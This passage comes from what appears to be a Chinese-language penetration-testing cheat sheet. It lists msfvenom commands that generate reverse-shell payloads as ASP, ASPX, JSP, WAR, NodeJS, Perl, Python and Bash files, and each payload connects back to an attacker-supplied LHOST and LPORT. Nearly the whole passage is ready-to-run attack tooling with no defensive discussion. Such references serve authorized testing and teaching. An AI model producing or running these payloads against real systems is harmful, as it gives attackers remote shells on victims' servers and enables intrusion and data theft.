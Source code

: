 ### ASP/x

#### 反向 shell

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
{% endcode %}

### JSP

#### 反向 shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
{% endcode %}

### WAR

#### 反向Shell

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
{% endcode %}

### NodeJS
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
## **脚本语言有效载荷**

### **Perl**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
{% endcode %}

### **Python**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### **Bash**
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
{% endcode %}
